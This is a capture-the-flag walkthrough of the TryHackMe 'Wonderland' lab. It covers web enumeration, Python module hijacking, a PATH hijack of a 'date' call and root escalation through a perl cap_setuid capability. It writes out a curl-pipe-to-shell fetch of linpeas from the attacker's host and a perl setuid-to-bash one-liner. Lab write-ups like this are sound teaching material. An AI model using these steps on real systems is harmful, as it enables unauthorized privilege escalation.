 # TryHackMe - Wonderland

https://tryhackme.com/room/wonderland

Topics cover in this room:
- Python module manipulation
- PATH variable environment
- Capabilities

### Recon and Enumeration

```bash
nmap -sC -sV 10.10.243.9 # Change this to IP given
```
![nmap-scan](img\nmap-scan.png)

We found port `80`, lets run `gobuster` to enumerate directory in the website
```bash
gobuster dir -w /opt/common.txt -u 10.10.243.9 
# Change this to IP given
# your wordlist may be different
```
While gobuster is scanning, lets open browser to see what the website has
![web-manual-hunt-1](img\web-manual-hunt-1.png)


Nothing, lets see the source page. Hit `Ctrl+U` if you are using Firefox
![\web-manual-hunt-1-source-code](img\web-manual-hunt-1-source-code.png)

Same. Lets see if our gobuster found something
![gobuster-scan.png](img\gobuster-scan.png)

`/r`, interesting. Lets see what in there. Type `IP_OF_MACHINE/r`
![web-manual-hunt-2.png](img\web-manual-hunt-2.png)
Hmm, maybe we should follow *rabbit*? Lets try access all directory with spelling rabbit. The syntax should be
1. `IP_OF_MACHINE/r`
2. `IP_OF_MACHINE/r/a`
3. `IP_OF_MACHINE/r/a/b`
4. `IP_OF_MACHINE/r/a/b/b`
5. `IP_OF_MACHINE/r/a/b/b/i`
6. `IP_OF_MACHINE/r/a/b/b/i`
7. `IP_OF_MACHINE/r/a/b/b/i/t`
![web-manual-hunt-end.png](img\ web-manual-hunt-end.png)


Have get ourself into the *rabbit hole*? Lets we check the source code of the page. Hit `Ctrl+U` if you are using firefox
![web-manual-hunt-end-source-page.png](img\web-manual-hunt-end-source-page.png) 
We know from Nmap scan, we have port `22` open which we can SSH into the machine. And we found something that was hidden that may have been credential. Lets SSH into the machine with this info
```bash
ssh alice@IP
```
![ssh-alice.png](img\ssh-alice.png) 
***WE ARE IN***

### Alice

Lets see what `alice`
![alice-directory.png](img\alice-directory.png) 

We have 2 interesting files called `root.txt` and a python file. Both can only be run as `root`.

Lets see what `sudo` command our `alice` can run
![alice-sudo.png](img\alice-sudo.png) 

So, `alice` can run the python command only as a username `rabbit`. Lets run it
![alice-py.png](img\alice-py.png) 

We got some poem, lets see what is this python script does. Use `nano walrus_and_the_carpenter.py`
![alice-py-sc-1.png](img\alice-py-sc-1.png) 
![alice-py-sc-2.png](img\alice-py-sc-2.png) 

So, the scripts run a `for` loop where it will randomly split the poem and print in 10 times using `random` library.

If we check python library path configuration using `python3 -c 'import sys; print(sys.path)'` we will see that the very first thing python will check is current directory where the script is run(mark by `['',` )
![alice-py-lib-src.png](img\alice-py-lib-src.png) 

What that mean is, we can create a new python file named `random.py` containing some exploit code where `walrus_and_the_carpenter.py` will use it as the library, since current directory is the very first the script will check. More in [here](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Make a new file call `random.py` with `nano` or `vim` and type code bellow
![random-py-exploit.png](img\random-py-exploit.png) 

Now if we run the `sudo rabbit` command earlier, we will now will switch to user `rabbit`
![rabbit-shell.png](img\rabbit-shell.png) 

### Rabbit

Neat, lets see what we have in `rabbit` directory.
![rabbit-directory.png](img\rabbit-directory.png)

Running `file teaParty` will tell us what is this file. It is a binary file. Running it with `./teaParty` wont tell us much info
![teaParty](img\teaParty.png)

Usually with binary file, we can use `strings` to see what piece of string that is in the file. But since there is no `strings` in our machine we will use `less`. Run `less teaParty`. You will get bunch of text that very confusing, its because we try to open binary file as a text. But there are strings that readable, that what we wanted. Scroll down long enough you will find strings that look similiar when we run `./teaParty`
![teaParty-string](img\teaParty-string.png)

What this binary will do if it run, it will dispay text `Welcome to the tea party! The Mad Hatter will be here soon.` and then date that is `echo` from the variable `date` in the system (in our case its our machine). Hence why when we run the file, we get estimated time +1 hour from our machine. 

If you look closely there are 2 variable that this binary use. `echo` and `date`. `echo` is set to run using PATH from `bin/echo`, but there is no rule for where this `date` variable should run from. We can create our own `date.sh` containing our payload as the PATH preferance for binary to run. So lets do this!

> More on explained of PATH is [here](https://linuxconfig.org/linux-path-environment-variable) and for [this exploit](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) it self

Make a new path on `/tmp` with command `export PATH=/tmp:$PATH` and confirm it with `echo $PATH`. If done correctly we can see that `/tmp` is in front.

> Why on `/tmp` you may ask? Most of the directory that own by `root` can only be access as `root` it self for some exception which `/tmp` is one of them, google this for more info.

Create a new shell script called `date` with `vim` or `nano` with code below
![date-exploit](img\date-exploit.png)

Change the mode of our `date` as executable wih `chmod +x /tmp/date` and run the binary again with `./teaParty`
![hatter-shell](img\hatter-shell.png)

There is explanation for this exploit, which I will try to explain the best as I can:

1. You may wondering, why we create our `date` on `/tmp` as suppose to in current directory? It because `teaParty` is own and can only edited by `root` which you can check with running command `ls -la`. Since we need to modify the `date` whome our `teaParty` use, hence we need to place it as in `root` only area, and `/tmp` is one of the place that own by `root` whose also can be access by any user. If you try to use in current directory, it wont work.

2. What the code in `date` does is simply spawn `bash` as suppose to complete the script. If we run `teaParty` normally, there is `ending` which the script is complete its job. Where after this exploit, instead of giving you and time estimation in the line after `Probably by` it spawn a `bash` shell.

So now we have `hatter` shell, we will go to `hatter` home directory. 
![hatter-pass](img\hatter-pass.png)

Go ahead to `cat` the password and lets switch to `hatter` user, since we technically are not fully `hatter`
![su-hatter](img\su-hatter.png)

### Hatter

All we have is just `password.txt`, and nothing else. What we do now? Well lets use enumeration tool, `[linpeas]`(https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Download the file and put it in your machine. Start web simple httpserver by `python3 -m http.server 80` on where `linpeas.sh` is located. Open a new terminal and type in `ifconfig` and save/write `tun0` IP somewhere

On target machine, type in `curl tun0_IP/linpeas.sh | sh | tee linlog.txt`. What this command does is it will download `linpeas.sh` in our mahcine and run it as well as save it as `linlog.txt`

As you notice, it really slow to navigating the target machine. And there are a lot of information that `linlog.txt` has so we want to copy `linlog.txt` form target machine to our machine. Use `scp hatter@10.10.243.9:/home/hatter/linlog.txt .` and once completed, open it on your machine with `less -r linlog.txt` and press `y`

This part require you to have some knowledge of linux privilege escalation vector. Usually if this is beginner room, you will see right away the vector by finding **orange** color.

Running `sudo -l` confirming that `hatter` dont have access to `sudo`. Right now, the best we can do is to check anythng that `linpeas` has mark with **red** color. One of way to check is to use [GTFOBins](https://gtfobins.github.io/) as well as read the link that `linpeas.sh` gave.

To make it short we will use whats in `capabilities`. Quoting from book.hacktricks.xyz it self
> Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.

In short: `capabilities` is a way to make a exception for non priviledge user to run important task like most of networking stuff which `root` is the one who capable as `root` is priviledge user. There are a lot of vector we can use, but `linpeas` told us we can use `cap_setuid` of `perl`. Read more [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#capabilities).
![capabilites](img\capabilities.png)

Type in `which perl` to find where is the perl executable is located, and head over to [GTFOBins](https://gtfobins.github.io/) and find `Perl` section

On the very bottom, we see `Capabilities` section. We only need some of the code, so use command `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`.
![perl-to-bash](img\perl-to-bash.png)
> NOTE: `/bin/sh` is change to `/bin/bash` because we want `bash` to spawn, not `sh`

And now you are `root`. Since you are root, you can go to `alice` directory to get `root.txt` and go to `/root` directory to get `user.txt`